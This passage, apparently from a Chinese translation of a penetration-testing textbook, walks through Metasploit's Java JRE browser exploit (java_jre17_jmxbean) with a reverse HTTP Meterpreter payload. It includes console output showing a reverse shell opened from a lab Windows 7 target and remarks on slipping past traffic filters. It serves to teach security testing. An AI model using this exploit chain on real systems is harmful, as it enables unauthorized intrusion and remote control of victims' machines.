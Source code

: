 设置选项以匹配你的环境。将 `SRVHOST` 选项设置为本地 IP 地址，并根据需要更改 `SRVPORT`。将 `URIPATH` 设置为目标浏览器中易于输入的路径。

请注意，由于这个漏洞利用是多平台的，且代码执行完全在 JRE 内部进行，因此我们的有效载荷选项是基于 Java 的。常见的选项都在这里，包括分阶段有效载荷、内联有效载荷、绑定 shell、反向 shell、Meterpreter 等，正如 ❶ 所示的有效载荷列表所示。我们将使用有效载荷 *java/meterpreter/reverse_http*，它使用合法的 HTTP 流量 ❷。其选项如示例 10-16 所示。

示例 10-16. 使用 HTTP 有效载荷利用 Java 漏洞

```
msf  exploit(java_jre17_jmxbean) > **show options**

Module options (exploit/multi/browser/java_jre17_jmxbean):

--*snip*--

Payload options (java/meterpreter/reverse_http):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8080             yes       The local listener port

Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf  exploit(java_jre17_jmxbean) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(java_jre17_jmxbean) > **exploit**
[*] Exploit running as background job.

[*] Started HTTP reverse handler on http://192.168.20.9:8080/
[*] Using URL: http://192.168.20.9:80/javaexploit
[*] Server started.
msf  exploit(java_jre17_jmxbean) > [*] 192.168.20.12       java_jre17_jmxbean - handling request for /javaexploit
[*] 192.168.20.12        java_jre17_jmxbean - handling request for /javaexploit/
[*] 192.168.20.12        java_jre17_jmxbean - handling request for /javaexploit/hGPonLVc.jar
[*] 192.168.20.12        java_jre17_jmxbean - handling request for /javaexploit/hGPonLVc.jar
[*] 192.168.20.12:49188 Request received for /INITJM...
[*] Meterpreter session 1 opened (192.168.20.9:8080 -> 192.168.20.12:49188) at 2015-05-05
19:15:19 -0400
```

这些选项应该很熟悉。默认的 `LPORT` 选项现在是 8080，而不是 4444。请注意，`SRVPORT` 和 `LPORT` 都默认为 8080，所以我们需要至少更改其中一个。

完成选项设置后，启动漏洞利用服务器，并从你的 Windows 7 目标机器上浏览恶意页面。只要启用了易受攻击的 Java 浏览器插件，Internet Explorer 或 Mozilla Firefox 都会成为此攻击的受害者。

HTTP 和 HTTPS Meterpreter 有效载荷的一个大特点是，除了它们是合法的 HTTP 和 HTTPS 流量，因而能够绕过一些流量检查过滤器外，它们还能够重新连接到断开的会话。（网络问题可能导致会话自发中断——这对于渗透测试人员来说是一个大麻烦。）我们将在第十三章中探讨其他持续访问的方法，但现在我们先来分离 Meterpreter 会话，如示例 10-17 所示。

示例 10-17. 分离 HTTP Meterpreter 会话
